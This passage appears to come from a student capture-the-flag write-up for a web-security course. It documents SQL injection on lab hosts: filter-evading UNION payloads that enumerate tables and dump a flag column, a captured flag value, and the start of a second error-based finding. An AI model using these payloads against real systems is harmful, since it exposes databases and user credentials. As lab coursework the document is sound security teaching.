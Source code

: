 By incrementing the offset we find multiple tables of interest including:
- `ip_address`
- `flag`

We can now list all the columns of the flag table.

`200/**/uNIon/**/(sElect/**/column_name,NuLL/**/fRom/**/information_schema.columns/**/wHere/**/table_name='flag'`

But we're not allowed to type `'flag'` because of the flag so we have to find a different way.

Our previous query will return the 'flag' row with the correct offset as such:

`sElect/**/table_name/**/fRom/**/information_schema.tables/**/LiMiT/**/(3-2)/**/OfFsEt/**/(4-2)`

We can then craft a query to get all the columns of the flag table:

`200/**/uNIon/**/(sElect/**/column_name,NuLL/**/fRom/**/information_schema.columns/**/wHere/**/table_name=(sElect/**/table_name/**/fRom/**/information_schema.tables/**/LiMiT/**/(3-2)/**/OfFsEt/**/(4-2)))`

The table columns include:
- time
- garbage
- flag

At that point we can start dumping the column of interest, in this case the `flag` column. And by running the following, we get the flag.

`200/**/uNIon/**/(sElect/**/FlAG,NulL/**/fRom/**/fLaG)`

### Severity
The severity of this vulnerability is high as even though the amount of data that is retrievable is limited to 1 row at a time, a patient hacker can still, over time, collect the data but nevertheless, the fact that the any arbitrary table can be viewed essentially reveals all the data in the database to the world, from sensitive data to user data such as logins and passwords.

## oobydooby.ext.ns.agency
COMP6843{a14f589c-9b86-4f98-8160-454c588e108f}
### Description
The url "http://oobydooby.ext.ns.agency/query" contains a form which is vulnerable to sql injection.

By setting the query to `'` we get the following error:
```
error occured in the query
raw query: SELECT id, name, surname, address, postcode, cats_name,
mothers_maiden_name, gender, time_created
                                        FROM person
                                        WHERE name
                                        LIKE '%'%'
                                        LIMIT 500
```
By typing `a` as the query, we can see that the output only tells us if there is a result or not:
        - `results found. but not telling you :)`
        - `No results found`
